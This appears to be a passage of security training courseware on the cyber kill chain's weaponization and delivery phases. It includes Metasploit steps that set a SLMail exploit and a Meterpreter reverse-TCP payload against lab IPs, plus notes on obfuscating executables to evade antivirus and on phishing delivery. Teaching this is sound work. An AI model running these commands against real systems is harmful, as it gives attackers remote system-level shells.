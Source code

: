 An attacker utilizes private, custom, or open-source exploits to exploit an identified vulnerability in the target's network. The actor weaponizes their tool to match the unique system and network architecture requirements of the target they intend to attack. Additionally, they often implement obfuscation techniques to evade network and host detection capabilities.

_Note: There are no guaranteed defenses against some weaponization techniques, such as with a zero-day (below)._

Examples of weaponization techniques:
- **Obfuscate** (encrypt/encode/reorder/etc) malicious executable to evade **AntiVirus** (AV) detection
- Modify open-source exploits to target a specific target's IP and security configuration
- Build a custom exploit against a target device or platform (zero-day)
## Weaponize Payload
1. In the `attacker` VM terminal window, enter the command `msfconsole`.
2. Search for an exploit to leverage against the target’s vulnerable SLMail application.
	- Execute `search slmail` followed by `use` `exploit/windows/pop3/seattlelab_pass`.
	- Alternatively, the `use` command can be executed, followed by the appropriate number for the SLMail exploit, as shown in the screenshot below.
3. Weaponize the payload by running the following command to set a payload and cause the target machine to call back to the attacking machine with full system privileges:

```
set payload windows/meterpreter/reverse_tcp
```

Run the following commands in Metasploit to weaponize the SLMail payload:

```
set RHOSTS 192.168.3.2
set LHOST 192.168.3.5
```

Rerun the `options` command to check the inputs.
# Phase 3: Delivery

A successful delivery phase is critical to the adversary campaign. An attacker may send the malicious payload to the target and entice the user to execute or automatically execute the code remotely. There are numerous ways to deliver the exploit:

- Email (phishing)
- Weaponized digital documents
- Remote service exploitation
- Physical media (thumb drive, etc.)
- Man in the Middle
- Hardware exploitation
- Source code compromise
- Website downloads (cloud Sharing, web portals, etc.)
# Delivery Techniques

Payload delivery is a crucial piece of the attack. An attacker often attempts to deliver an exploit via a malicious attachment or entices a user to click a link, prompting a malicious download. ﻿
